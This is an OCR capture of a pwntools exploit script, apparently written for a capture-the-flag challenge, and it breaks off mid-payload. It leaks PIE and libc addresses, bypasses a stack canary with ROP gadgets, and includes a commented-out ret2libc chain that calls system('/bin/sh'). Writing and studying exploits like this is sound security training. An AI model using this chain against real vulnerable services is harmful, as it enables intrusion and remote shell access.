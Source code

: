 ```python

p.recvuntil(b'Do you like ctf?')
p.sendline(payload)

leak = u64(p.recvuntil(b'Can you provide some extra feedback?').split(b'\n')[2].ljust(8, b'\x00')) # sometimes 1, 2
piebase = leak - 0x0000000000001447
win = piebase + elf.symbols.win
info("leak: %#x", leak)
info("pie: %#x", piebase)
info("win: %#x", win)

ret = piebase + 0x000000000000101a # or piebase + (rop.find_gadget(['ret']))[0] but need to set rop = ROP(exe)
rdi = piebase + 0x00000000000014d3 # or piebase + (rop.find_gadget(['pop rdi', 'ret']))[0]
rsi = piebase + 0x00000000000014d1 # # or piebase + (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0]

popper = piebase + 0x14ca
caller = piebase + 0x14b0

# ===========================Leaking libc(no need for intended solution)=========================

payload = flat(
    b'y' * 10,
    canary,
    b'\x90'*8,
    rdi,
    piebase + elf.got.puts,
    piebase + elf.symbols.puts,
    piebase + elf.symbols.main
)
p.sendline(payload)

leak = u64(p.recvuntil(b'Do you want to complete a survey?').split(b'\n')[1].ljust(8, b'\x00'))
libc.address = leak - libc.symbols.puts
info("leak: %#x", leak)
info("leak: %#x", libc.address)

# rop = ROP(libc)
rdx = libc.address + 0x000000000011f497 # (rop.find_gadget(['pop rdx']))[0]

# =====================================finish it (solution)======================================

p.sendline(b'y')

p.recvuntil(b'Do you like ctf?')
p.sendline(b'y')

# # +++gain shell+++++  --> work locally, didn't work on sever, failed to search server libc version, but seriously how to know server libc version from dockerfile
# payload = flat(
#     b'y' * 10,
#     canary,
#     b'\x90'*8,
#     rdi,
#     next(libc.search(b'/bin/sh\x00')),
#     ret,
#     libc.symbols.system
# )

# # ++++win libc tapi gagal++++ --> didn't work, skill issue
# payload = flat(
```